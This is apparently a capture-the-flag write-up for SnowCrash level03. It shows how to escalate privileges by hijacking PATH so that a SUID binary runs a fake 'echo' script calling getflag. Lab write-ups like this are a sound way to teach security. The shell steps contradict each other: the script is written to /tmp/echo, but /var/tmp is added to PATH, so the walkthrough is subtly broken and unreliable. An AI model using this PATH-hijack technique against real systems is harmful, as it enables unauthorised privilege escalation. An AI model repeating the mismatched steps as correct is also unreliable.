 ```bash
ls -la
```

We can see that level03 has the SUID flag in the file permissions.

The SUID flag allows the file to be executed with the privileges of the file's owner, even if another user runs it.

Running level03 give a simple string 'Exploit me'

Searching 'Exploit me'
```bash
level03@SnowCrash:~$ strings ./level03 | grep 'Exploit me'
/usr/bin/env echo Exploit me
```


This means the program is using a system call to invoke `echo` with 'Exploit me' as an argument. Since the owner of the program is flag03, and the level03 user can execute the program with flag03's privileges, we can easily change the behavior of echo by modifying the PATH environment variable to exploit the program.

Create a fake echo command that uses `getflag`
```bash
echo "getflag" > /tmp/echo
chmod +x /tmp/echo
```

Change PATH environment variable.

```bash
PATH="/var/tmp:$PATH"
```

Calling `./level03` we can get the flag for the next level.
